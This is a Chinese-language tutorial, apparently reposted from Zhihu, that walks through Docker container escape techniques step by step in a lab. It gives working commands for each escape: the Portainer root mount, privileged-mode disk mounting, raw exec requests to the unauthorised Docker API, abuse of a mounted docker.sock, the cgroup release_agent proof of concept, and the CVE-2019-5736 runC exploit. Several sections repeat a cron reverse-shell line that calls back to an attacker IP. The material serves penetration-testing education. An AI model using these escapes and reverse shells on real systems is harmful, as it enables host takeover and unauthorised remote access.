


# Docker逃逸漏洞案例漏洞案例


> https://zhuanlan.zhihu.com/p/588513910

## **什么是Docker**

Docker是一个开源的引擎,可以轻松的为任何应用创建一个轻量级的、可移植的、自给自足的容器。开发者在笔记本上编译测试通过的容器可以批量地在生产环境中部署,包括VMs(虚拟机)、bare metal、OpenStack 集群和其他的基础应用平台。

### **判断当前是否为docker环境**

首先在我们拿到一个主机权限之后，需要判断该权限所处环境是不是docker，可以使用下面两条命令

1. 是否存在.dockerenv文件，若该文件存在则为docker环境，若不存在该文件则当前环境非docker环境`ls -alh /.dockerenv`


2. 查询系统进程的cgroup信息，docker环境中的cgroup文件普遍存在docker字段，而真实环境中不存在docker字段`cat /proc/1/cgroup`


## **Docker逃逸漏洞案例**

Docker容器是使用沙盒机制，是单独的系统，理论上是很安全的，通过利用某种手段，再结合执行EXP或POC，就可以返回一个宿主机的高权限shell，并拿到宿主机的root权限，可以直接操作宿主机文件，从容器中逃了出来，因此我们将其称为Docker逃逸漏洞案例漏洞。

## **Portainer后台挂载宿主机根目录进行逃逸**

Portainer是一个可视化的容器镜像的图形管理工具，利用Portainer可以轻松构建、管理和维护Docker环境，而且完全免费，基于容器化的安装方式，方便高效部署。
需要注意的是后台没有默认账号密码，当第一次登录系统时会提示设置新密码，在实战中可以尝试爆破。

### **环境搭建**

在安装了docker的物理机中运行该命令`docker run -d -p 8000:8000 -p 9000:9000 --name=portainer --restart=always -v  /var/run/docker.sock:/var/run/docker.sock -v portainer_data:/data  portainer/portainer-ce`


部署成功后访问宿主机的9000端口，设置用户名与密码


### **漏洞利用**

进入容器中，添加一个新容器


进入到portainer后台界面


这里给该容器命名并选择一个镜像


下滑到Advanced container settings将console设置为interactive & tty


然后到Volumes中将根目录挂载到容器中


然后点击部署即可


部署成功后回到容器中，进入到该容器终端内
进入到终端后，输入如下命令`ls /tide/`
`chroot /tide/ bash`


如此成功逃逸到宿主机中，也可直接反弹shell`echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root`


## **privileged特权模式启动容器**

特权模式逃逸是一种最简单有效的逃逸方法，该漏洞的原理是宿主机使用root用户或使用sudo命令启动的容器时，docker管理员可通过mount命令将外部宿主机磁盘设备挂载到容器内部，获取对整个宿主机的文件读写权限，可直接通过chroot切换根目录、写ssh公钥和crontab计划等逃逸到宿主机。

### **特权模式与非特权模式的区别**

-  `Linux Capabilities`

1.  普通模式下容器内进程只可以使用有限的一些Linux Capabilities
2.  特权模式下的容器内进程可以使用所有的Linux Capabilities

- Linux敏感目录 1.  普通模式下，部分内核模块路径比如/proc下的一些目录需要阻止写入、有些又需要允许读写，这些文件目录将会以tmpfs文件系统的方式挂载到容器中，以实现目录mask的需求 2. 特权模式下，这些目录将不再以tmpfs文件系统的方式挂载

- 任何内核文件都是可读写 1. 普通模式下，部分内核文件系统（sysfs、procfs）会被只读的方式挂载到容器中，以阻止容器内进程随意修改系统内核 2. 特权模式下，内核文件系统将不再以只读的方式被挂载

- APPArmor和Seccomp

1.  普通模式下，可以通过配置APPArmor或Seccomp相关安全选项
2. 特权模式下，这些AppArmor或Seccomp相关配置将不再生效

-  cgroup读写

1.  默认情况下，只能以只读模式操作cgroup
2.  特权模式下，将可以对cgroup进行读写操作

- /dev

1.  普通模式下，容器内/dev目录下看不到节点/dev目录下特有的devices
2.  特权模式下，容器内的/dev目录会包含这些来自节点/dev目录下的那些内容

- SELinux

1. 特权模式下，SELinux相关的安全加固配置将被禁用

2. 普通模式下也可以通过对应的安全选项来禁用SELinux特性

### **判断方法**

在容器中可以使用该命令检测当前容器是否以特权模式启动`cat /proc/self/status | grep Cap`如果是特权模式启动的话，CapEff对应的掩码值在centos中为 0000001fffffffff ，在ubuntu中为0000003fffffffff，如下图


### **环境搭建**

在安装有docker机器的主机上直接运行该命令，启动该容器即可。`docker run -it --privileged ubuntu:18.04  `


### **漏洞利用**

首先我们为了区别宿主机与docker容器的区别，我们先在宿主机中新建一个文件，作为标识区别


在启动后我们会进入到docker容器的bash中，在这里我们查看当前主机的docker是否为特权模式启动。`cat /proc/self/status | grep Cap`


我们可以将宿主机目录挂载到该docker容器中，首先查看当前磁盘分区情况，获得宿主机分区`fdisk -l `


这里我们根据分区大小得知到宿主机的磁盘为/dev/dm-0，这时可以直接挂载宿主机的磁盘

`mkdir tide`
`mount /dev/dm-0 /tide/`
`chroot /tide/`


这时我们会进入一个bash会话，在这里可以查看宿主机的/etc/passwd等敏感文件


这时去查看刚刚我们在宿主机根目录中创建的flag.txt文件，看其是否存在，就能判断出我们当前是否已经成功跳出docker容器


这里可以看到我们现在已经成功跳出了docker容器，获得了宿主机的权限，可以使用计划任务反弹shell`echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root`


## **Docker API 未授权访问**

该漏洞起因是因为使用Docker Swarm时，管理的docker 节点上便会开放一个TCP端口2375/2376，绑定在0.0.0.0上，如果没有做限制访问来源的话，攻击者可以通过Doker未授权来控制服务器。

### **环境搭建**

在vulhub中存在该漏洞复现环境，部署命令如下：`cd docker/unauthorized-rce/`
`docker-compose build`
`docker-compose up -d `
`docker-compose ps `


也可以在真实Docker中部署该环境，部署步骤如下：`#下载环境`
`curl -o /etc/yum.repos.d/Centos-7.repo http://mirrors.aliyun.com/repo/Centos-7.repo`
`curl -o /etc/yum.repos.d/docker-ce.repo http://mirrors.aliyun.com/docker-ce/linux/centos/docker-ce.repo`
`yum clean all && yum makecache`


安装指定版本docker` yum install -y docker-ce-18.09.9  `


配置加速源` vim /etc/docker/daemon.json`
` { "registry-mirrors" : [ "https://8xpk5wnt.mirror.aliyuncs.com" ]}`


设置开机自启：`systemctl enable docker `
`systemctl daemon-reload`


启动contianerd服务：`containerd  #启动`
`systemctl status containerd # 查看服务状态`


开启2375端口，提供外部访问：`vim /usr/lib/systemd/system/docker.service`
`ExecStart=/usr/bin/dockerd -H tcp://0.0.0.0:2375  -H fd:// --containerd=/run/containerd/containerd.sock`


改完之后需要重启：`systemctl daemon-reload`
`systemctl restart docker `

然后我这里还需要在防火墙中将2375端口放行，命令如下：`systemctl start firewalld`
`firewall-cmd --zone=public --add-port="2375"/tcp --permanent`
`firewall-cmd --permanent --query-port="2375"/tcp`
`systemctl restart firewalld`

接下来我们访问该ip的2375端口即可，当我们访问时会返回 404 page not found。这是 Docker RemoteAPI，可以执行docker命令。


这里如果我们继续访问[http://192.168.198.129:2375/version](https://link.zhihu.com/?target=http%3A//192.168.198.129%3A2375/version)，会返回docker的版本信息，这样证明该漏洞存在。


比如访问 [http://192.168.198.129:2375/containers/json](https://link.zhihu.com/?target=http%3A//192.168.198.129%3A2375/containers/json) 会返回docker信息，和在docker CLI上执行 docker ps 的效果一样，其他操作比如创建/删除container，拉取image等操作也都可以通过API调用完成。


### **漏洞利用**

### **利用方法1 命令执行**

访问 [http://192.168.198.129:2375/containers/json](https://link.zhihu.com/?target=http%3A//192.168.198.129%3A2375/containers/json) 获得刚刚返回的exec_id的参数，构造如下数据包：


`POST /containers/7badb971f85814c718dcc4efdd34fead171ebdbb099bc5252f02785374e24b0f/exec HTTP/1.1`
`Host: 192.168.198.138:2375`
`Content-Type: application/json`
`Content-Length: 168`
`{`
`"AttachStdin":true,`
`"AttachStdout":true,`
`"AttachStderr":true,`
`"Cmd":[`
`"cat","/etc/passwd"`
`],`
`"DetachKeys":"ctrl-p,ctrl-q",`
`"Privileged":true,`
`"Tty":true`
`}`注意其中cmd的字段，这就是我们要执行的命令，发送后会得到第二个id，这里需构造一个exec_start数据包，内容如下。


```
POST /exec/962fee39c29a2c9d5ea984b55673a7823aa06b6187eaf4be279f25af6cecad1f/start HTTP/1.1`
`Host: 192.168.198.138:2375`
`Content-Type: application/json`
`Content-Length: 36`
`{`
`"Detach":false,`
`"Tty":false`
`}
```


然后发送就会得到结果，至此成功获得该docker主机的rce权限，但无法逃逸到宿主机中。

### **利用方法2 远程连接，新建特权容器，逃逸到宿主机中**

因为docker 有远程连接命令，由于2375端口暴露，可未授权访问，所以现在可以在我们的主机上通过远程方式连接doker ，然后以特权模式启动一个docker容器，从而达到逃逸到宿主机的情况

`docker -H tcp://192.168.198.138:2375 ps`
`docker -H docker -H tcp://192.168.241.142:2375 run -it --privileged alpine bin/sh`


进入容器后，使用fdisk -l命令查看磁盘文件`fdisk -l`


分区大小得知到宿主机的磁盘为/dev/dm-0，这里可以使用上面我们刚刚特权模式逃逸的命令将该磁盘挂载到目录中`mkdir /tide/`
`mount /dev/dm-0 /tide/`
`chroot /tide/`


成功逃逸到宿主机

## **挂载Docker.sock**

Docker架构相当于C/S架构，docker.sock就是docker中套docker，docker的client和server的通信模式参考:[https://www.jb51.net/article/99019.htm](https://link.zhihu.com/?target=https%3A//www.jb51.net/article/99019.htm)
利用docker.sock逃逸的前提条件

3. 攻击者获得了docker容器的访问权限

4. 容器已安装/var/run/docker.sock

### **环境搭建**

创建Docker`docker run -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu:18.04  `


随后在docker容器中安装docker`# ubuntu 18.04安装docker `
`apt-get update `
`# 安装依赖包 `
`apt-get install apt-transport-https ca-certificates curl gnupg-agent software-properties-common `
`# 添加 Docker 的官方 GPG 密钥 `
`curl -fsSL https://download.docker.com/linux/ubuntu/gpg |  apt-key add - `
`# 验证当前是否拥有带有指纹的密钥 `
`apt-key fingerprint 0EBFCD88 `
`# 设置稳定版仓库 `
`add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" `
`# 更新 `
`apt-get update `
`# 安装最新的Docker-ce  `
`apt-get install docker-ce `
`# 启动 `
`systemctl enable docker `
`systemctl start docker `


这时安装完成后我们就可以使用docker ps来看到宿主机上的容器了。

### **漏洞利用**

将宿主机的根目录挂载到容器中`docker run -it -v /:/tide ubuntu:18.04 /bin/bash `
`chroot tide`


这时可以看到返回出一个bash会话，这里我们就可以看到我们之前在宿主机中创建的flag.txt了


这里也可以使用计划任务反弹shell`echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root`


## **挂载宿主机根目录**

如果在docker启动的时候挂载了宿主机的根目录，就可以通过chroot获取宿主机的权限`docker run -it -v /:/tide/ ubuntu:18.04`
`chroot /tide/`


相同也可以通过计划任务反弹shell`echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root`


### **Cgroup执行宿主机系统命令**

docker使用cgroup进行资源限制，当cgroup中最后一个任务结束且notify_on_release开启，release_agent可执行事先提供的命令，因此可以利用这个特性来实现容器的逃逸。

### **漏洞利用条件**


1.以root用户身份在容器内运行 

2.使用SYS_ADMINLinux功能运行 

3.缺少APPArmor配置文件，否则将允许mountsyscall 

4.cgroup V1虚拟文件系统必须以读写方式安装在容器内

~~~text
#### 环境搭建

docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu:18.04  
~~~


### **漏洞利用**

```text
# 挂载宿主机cgroup，自定义一个cgroup，/tmp/cgrp/x 
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x 
# 设置/tmp/cgrp/x的cgroup的notify_no_release和release_agent 
#  设置/tmp/cgrp/x的notify_no_release属性设置为1，通过sed匹配出/etc/mtab中perdir=的路径,然后将路径+cmd写入/tmp/cgrp/release_agent 
echo 1 > /tmp/cgrp/x/notify_on_release 
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab` 
echo "$host_path/cmd" > /tmp/cgrp/release_agent 
# 写入自定义命令 
echo '#!/bin/sh' > /cmd 
# 结果在当前目录的output文件中 
echo "cat /flag.txt > $host_path/output" >> /cmd 
chmod a+x /cmd 
# 执行完sh -c之后，sh进程自动退出，cgroup /tmp/cgrp/x里不再包含任何任务，/tmp/cgrp/release_agent文件里的shell将被操作系统内核执行,达到了容器逃逸的效果 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs" 
```


如上图所示，成功获取到宿主机根目录的flag.txt的内容，同理，我们将上面poc中的echo中的命令修改为反弹shell的命令，即可进行反弹shell，获得宿主机的权限。

```text
echo "echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root">> /cmd 
chmod a+x /cmd 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs" 
```


## **runC逃逸-CVE-2019-5736**

cve-2019-5736属于docker环境逃逸类型漏洞，该漏洞利用runC文件被覆盖，当管理员通过exec进入容器的时候，触发payload，从而达到逃逸  。个人理解这种方式利用的条件其实比较苛刻，主要苛刻在宿主机中必须有管理员使用exec进入当前docker环境，如果宿主机没有在运行EXP后进入该容器的话，是无法进行逃逸的。

### **影响版本**

```text
docker version <=18.09.2 RunC version <=1.0-rc6
```

### **环境搭建**

在部署该环境时，需要先将之前系统上所安装的docker卸载掉安装18.06版本的docker，我这里直接恢复了还没安装docker时的快照，故直接安装即可。

```text
curl https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw -o install.sh && bash install.sh  
```


另外可以使用 Metarget去直接部署环境，操作命令如下：
安装Metarget

```text
git clone https://github.com/brant-ruan/metarget.git
cd metarget/
pip3 install -r requirements.txt
```


部署cve-2019-5736

```text
./metarget cnv install cve-2019-5736
```


如上，已成功搭建好符合版本的docker环境，接下来我们启动一个docker容器即可

```text
docker run -it ubuntu:18.04
```



### **漏洞利用**

下载EXP

```text
git clone https://github.com/Frichetten/CVE-2019-5736-PoC 
```


修改payload为反弹shell


修改完之后进行编译，

```text
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go 
```


编译后会生成一个main的可执行文件，这里我们需要将其放到docker容器中，在kali中启动一个http服务，在容器中使用wget的命令去下载该文件

```text
python3 -m http.server 8080
```



在docker容器中下载该exp，并赋予执行权限，执行

```text
wget http://192.168.198.128:8080/main
chmod u+x main
./main
```


然后这里我们假装为宿主机管理员，现在进入到该容器中

```text
docker ps
docker exec -it 3056c91f69ea
```


这时再来看我们的docker容器里执行的exp已然被执行


但是奇怪的是并没有反弹过来shell，其他命令也无法被执行，修改了n次paylaod也无果，希望有成功的大佬能告知小弟步骤哪里错了。
至此，Docker逃逸漏洞案例章节完结，撒花~~


参考链接：
[https://blog.csdn.net/qq_69775412/article/details/124265678](https://link.zhihu.com/?target=https%3A//blog.csdn.net/qq_69775412/article/details/124265678)
[https://cloud.tencent.com/developer/article/1987725](https://link.zhihu.com/?target=https%3A//cloud.tencent.com/developer/article/1987725)
[https://copyfuture.com/blogs-details/202206262308472625](https://link.zhihu.com/?target=https%3A//copyfuture.com/blogs-details/202206262308472625)
[https://www.freebuf.com/vuls/264843.html](https://link.zhihu.com/?target=https%3A//www.freebuf.com/vuls/264843.html)
[https://segmentfault.com/a/1190000040980305](https://link.zhihu.com/?target=https%3A//segmentfault.com/a/1190000040980305)

